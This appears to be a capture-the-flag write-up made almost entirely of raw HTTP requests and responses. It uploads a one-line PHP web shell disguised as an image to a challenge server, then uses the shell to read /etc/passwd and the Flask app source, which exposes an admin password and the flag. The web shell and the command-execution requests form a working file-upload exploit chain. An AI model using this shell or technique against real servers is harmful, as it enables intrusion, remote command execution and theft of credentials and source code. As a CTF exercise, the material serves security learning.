


Look at this magnificent scroll. It must be preserved at all cost.
Let's bring it back to our exhibit.




!OBS! Image is needed here, because the markdown breaks when uploading to Github. But further request and responses the magic bytes are replaced with ```[magic bytes here]```!OBS!  


```http
POST /upload HTTP/1.1
Host: 134.122.88.8:5005
Content-Length: 230
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://134.122.88.8:5005
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFEGz3Y3WLQLvAOgu
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://134.122.88.8:5005/upload
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryFEGz3Y3WLQLvAOgu
Content-Disposition: form-data; name="image"; filename="test.php"
Content-Type: application/x-php

<?php echo system($_GET['command']); ?>

------WebKitFormBoundaryFEGz3Y3WLQLvAOgu--
```

```http
GET /uploads/ HTTP/1.1
Host: 134.122.88.8:5005
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://134.122.88.8:5005/upload
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIk9ubHkgaW1hZ2UgZmlsZXMgYWxsb3dlZCAoLmpwZywgLmpwZWcsIC5wbmcsIC5naWYpIl19XX0.aBMudw.Xeb6k0jZkQEfWWZQ8FIDEneh9Rc
Connection: keep-alive
```




```http
GET /uploads/c074188ba97ebf54_test_shell_data.php.jpg/?command=cat%20/etc/passwd HTTP/1.1
Host: 134.122.88.8:5005
Content-Length: 150
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://134.122.88.8:5005
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFEGz3Y3WLQLvAOgu
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://134.122.88.8:5005/upload
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

```http
HTTP/1.1 200 OK
Date: Thu, 01 May 2025 08:32:48 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Vary: Accept-Encoding
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 986

[magic bytes here]

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

```http
GET /uploads/c074188ba97ebf54_test_shell_data.php.jpg/?command=cat+../app.py HTTP/1.1
Host: 134.122.88.8:5005
Content-Length: 42
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://134.122.88.8:5005
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFEGz3Y3WLQLvAOgu
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://134.122.88.8:5005/upload
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryFEGz3Y3WLQLvAOgu

```

```http
HTTP/1.1 200 OK
Date: Thu, 01 May 2025 08:41:37 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Vary: Accept-Encoding
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 4245

[magic bytes here]

from flask import Flask, render_template, request, redirect, url_for, flash, send_from_directory, session
import os
import imghdr
import secrets
from werkzeug.utils import secure_filename

app = Flask(__name__)
app.config['SECRET_KEY'] = secrets.token_hex(16)
app.config['UPLOAD_FOLDER'] = 'uploads'
app.config['MAX_CONTENT_LENGTH'] = 2 * 1024 * 1024  # 2MB max size
app.config['ADMIN_PASSWORD'] = 'Anubis_Guardian_1337'  # For admin section
app.config['FLAG'] = 'O24{Th3_Phar40h_Kn0ws_Y0ur_P0lygl0t_Tr1cks}'
```


